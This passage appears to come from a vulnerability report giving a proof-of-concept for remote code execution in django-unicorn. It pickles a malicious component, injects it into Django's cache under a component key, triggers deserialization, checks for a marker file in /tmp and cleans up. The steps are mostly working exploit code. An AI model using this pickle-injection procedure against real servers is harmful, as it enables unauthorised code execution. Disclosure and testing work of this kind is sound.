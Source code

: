     malicious_component = MaliciousComponent()
    pickled_payload = pickle.dumps(malicious_component)

    # Save the payload to a file for easy injection
    with open("malicious_payload.pickle", "wb") as f:
        f.write(pickled_payload)
    ```
    3. **Inject Payload into Cache:** Use Django's cache API to set a cache entry with a key that django-unicorn uses (e.g., a component cache key) and the value as the malicious pickled payload generated in step 2.
    ```python
    from django.core.cache import cache

    # Load the malicious payload
    with open("malicious_payload.pickle", "rb") as f:
        malicious_payload = f.read()

    cache_key = "unicorn:component:test_rce_component" # Example key, may need adjustment based on application
    cache.set(cache_key, malicious_payload)
    print(f"Malicious payload injected into cache with key: {cache_key}")
    ```
    4. **Trigger Component Restoration:** Access a part of the application that uses caching and will attempt to restore a component with the cache key used in step 3 (`test_rce_component` in the example). This could be as simple as refreshing a page that renders a cached component.
    5. **Verify RCE:** Check if the payload executed on the server. In the example payload, check if the file `/tmp/unicorn_rce_poc` was created in the `/tmp/` directory on the server.
    ```bash
    ls -l /tmp/unicorn_rce_poc
    ```
    If the file exists, RCE is confirmed.
    6. **Cleanup:** Remove the malicious cache entry after testing.
    ```python
    cache.delete(cache_key)
    print(f"Malicious payload removed from cache key: {cache_key}")
